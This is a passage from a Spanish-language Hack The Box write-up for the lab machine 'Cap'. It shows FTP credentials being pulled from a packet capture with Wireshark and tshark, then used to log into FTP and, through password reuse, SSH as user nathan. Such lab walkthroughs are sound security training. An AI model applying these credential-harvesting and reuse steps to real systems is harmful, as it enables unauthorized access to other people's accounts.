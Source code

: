 
## Encontramos credenciales en un archivo .pcap [📌](#creds-ftp-pcap) {#creds-ftp-pcap}

Descargando el archivo `.pcap` y jugando con **WireShark** (analizador de tráfico por excelencia :P) vemos unas credenciales:

```bash
# Forma visual
❱ wireshark 0.pcap

# Desde la terminal
❱ tshark 0.pcap
```

![351bash_wireshark_0pcap](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cap/351bash_wireshark_0pcap.png)

Perfecto, unas credenciales de **FTP**, probemoslas:

```bash
❱ ftp 10.10.10.245
```

```bash
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:root): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1001     1001      1156536 Jun 19 16:59 pspy64s
-r--------    1 1001     1001           33 Jun 19 15:41 user.txt
226 Directory send OK.
ftp>
```

Entramos y al parecer tenemos acceso al directorio `/home` del usuario **nathan**...

Haciendo reutilización de contraseñas logramos obtener una **Shell** por medio de **SSH** como el usuario **nathan**:

---

## Acceso SSH al usuario nathan [📌](#creds-ftp-ssh-access) {#creds-ftp-ssh-access}

Ejecutamos **SSH** y colocamos la contraseña:

```bash
❱ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
```
